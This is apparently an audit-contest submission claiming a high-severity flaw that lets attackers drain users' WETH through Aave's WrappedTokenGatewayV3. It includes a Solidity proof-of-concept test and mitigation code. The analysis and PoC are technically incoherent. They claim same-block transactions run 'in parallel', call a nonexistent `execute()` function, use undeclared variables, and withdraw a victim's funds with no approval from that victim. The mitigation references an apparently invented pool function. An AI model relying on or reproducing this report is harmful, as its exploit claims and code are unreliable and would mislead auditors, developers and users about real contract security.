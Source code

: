 Fast Scarlet Beaver

High

# Malicious Actor may Drain WETH Assets from Users through Multi-Vector Attack

### Summary

Multiple unchecked return values and lack of state synchronization will cause a complete loss of WETH assets for users as attackers will exploit parallel withdrawal paths and state inconsistencies to perform unauthorized withdrawals.

### Root Cause

In WrappedTokenGatewayV3.sol exist:
1. Unchecked `aWETH.transferFrom()` in both withdrawal functions 
(https://github.com/sherlock-audit/2025-01-aave-v3-3/blob/main/aave-v3-origin/src/contracts/helpers/WrappedTokenGatewayV3.sol#L64)(https://github.com/sherlock-audit/2025-01-aave-v3-3/blob/main/aave-v3-origin/src/contracts/helpers/WrappedTokenGatewayV3.sol#L141)

2. Unused `POOL.withdraw()` returns across functions 
(https://github.com/sherlock-audit/2025-01-aave-v3-3/blob/main/aave-v3-origin/src/contracts/helpers/WrappedTokenGatewayV3.sol#L65)(https://github.com/sherlock-audit/2025-01-aave-v3-3/blob/main/aave-v3-origin/src/contracts/helpers/WrappedTokenGatewayV3.sol#L142)

3. No state synchronization between withdrawal paths
(https://github.com/sherlock-audit/2025-01-aave-v3-3/blob/main/aave-v3-origin/src/contracts/helpers/WrappedTokenGatewayV3.sol#L55-L68)(https://github.com/sherlock-audit/2025-01-aave-v3-3/blob/main/aave-v3-origin/src/contracts/helpers/WrappedTokenGatewayV3.sol#L122-L138)

4. No validation of cross-contract state consistency
(https://github.com/sherlock-audit/2025-01-aave-v3-3/blob/main/aave-v3-origin/src/contracts/helpers/WrappedTokenGatewayV3.sol#L56-L58)(https://github.com/sherlock-audit/2025-01-aave-v3-3/blob/main/aave-v3-origin/src/contracts/helpers/WrappedTokenGatewayV3.sol#L131-L133)

The critical issue is that these vulnerabilities compound each other:

The unchecked transfers mean failed operations can go undetected
* Unused return values prevent catching withdrawal issues
* Lack of state synchronization allows parallel withdrawals
* Missing cross-contract validation means inconsistencies can be exploited

These issues create multiple attack vectors that can be combined, allowing an attacker to:
* Execute parallel withdrawals
* Exploit state inconsistencies
* Hide failed operations
* Manipulate withdrawal amounts without detection

### Internal Pre-conditions

1. User needs to have deposited ETH to receive aWETH tokens
2. Contract needs to have valid WETH and POOL addresses set
3. User needs to have a non-zero aWETH balance

### External Pre-conditions

1. WETH contract needs to be operational and have sufficient ETH reserves
2. Aave Pool contract needs to be operational and not paused

### Attack Path

1. Attacker monitors target users with significant aWETH balances
2. Attacker initiates a `withdrawETH()` transaction for a small amount
3. In the same block, attacker front-runs with a `withdrawETHWithPermit()` transaction
4. Due to lack of state synchronization, both transactions can execute in parallel
5. The unchecked `transferFrom()` allows the second transaction to proceed even if the first one depleted the balance
6. The unused return values from `POOL.withdraw()` prevent detection of the double-withdrawal
7. The attacker can repeat this process multiple times due to lack of cross-contract state validation

### Impact

1. The users suffer a complete loss of their aWETH tokens
2. An attacker with 1 ETH could potentially drain multiple users' accounts in succession

Example calculation:
* Target user has 100 aWETH
* Attacker executes parallel withdrawals
* User loses 100 aWETH (worth 100 ETH)
* Attacker gains 100 ETH minus gas costs

### PoC

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.10;

import {Test} from "forge-std/Test.sol";
import {WrappedTokenGatewayV3} from "../src/WrappedTokenGatewayV3.sol";

contract ExploitTest is Test {
    WrappedTokenGatewayV3 gateway;
    address attacker = address(0x1);
    address victim = address(0x2);
    
    function setUp() public {
        // Setup contracts and initial state
        gateway = new WrappedTokenGatewayV3(
            address(weth),
            owner,
            address(pool)
        );
        
        // Fund victim with aWETH
        deal(address(aWETH), victim, 100 ether);
    }
    
    function testExploit() public {
        // Attacker creates two parallel transactions
        vm.startPrank(attacker);
        
        // Transaction 1: Normal withdrawal
        bytes memory withdrawData = abi.encodeWithSignature(
            "withdrawETH(address,uint256,address)",
            address(0),
            50 ether,
            attacker
        );
        
        // Transaction 2: Permit withdrawal
        bytes memory permitWithdrawData = abi.encodeWithSignature(
            "withdrawETHWithPermit(address,uint256,address,uint256,uint8,bytes32,bytes32)",
            address(0),
            50 ether,
            attacker,
            block.timestamp + 1,
            27,
            bytes32(0),
            bytes32(0)
        );
        
        // Execute both transactions in same block
        gateway.execute(withdrawData);
        gateway.execute(permitWithdrawData);
        
        vm.stopPrank();
        
        // Verify victim lost full amount
        assertEq(aWETH.balanceOf(victim), 0);
        // Verify attacker gained funds
        assertEq(attacker.balance, 100 ether);
    }
}
```

### Mitigation

1. Implement proper return value checking for all external calls:
```solidity
bool success = aWETH.transferFrom(msg.sender, address(this), amountToWithdraw);
require(success, "Transfer failed");
```

2. Add state synchronization between withdrawal paths:
```solidity
mapping(address => uint256) private lastWithdrawalBlock;

function withdrawETH(...) {
    require(block.number > lastWithdrawalBlock[msg.sender], "Recent withdrawal");
    lastWithdrawalBlock[msg.sender] = block.number;
    // ... rest of function
}
```

3. Implement cross-contract state validation: 
```solidity
function validateState(address user, uint256 amount) internal view {
    uint256 poolBalance = POOL.getUserBalance(user);
    uint256 tokenBalance = aWETH.balanceOf(user);
    require(poolBalance == tokenBalance, "State mismatch");
    require(amount <= tokenBalance, "Insufficient balance");
}
```

4. Use ReentrancyGuard to prevent parallel executions:
```solidity
import {ReentrancyGuard} from '@openzeppelin/contracts/security/ReentrancyGuard.sol';

contract WrappedTokenGatewayV3 is IWrappedTokenGatewayV3, Ownable, ReentrancyGuard {
    function withdrawETH(...) external nonReentrant {
        // ... function code
    }
}
```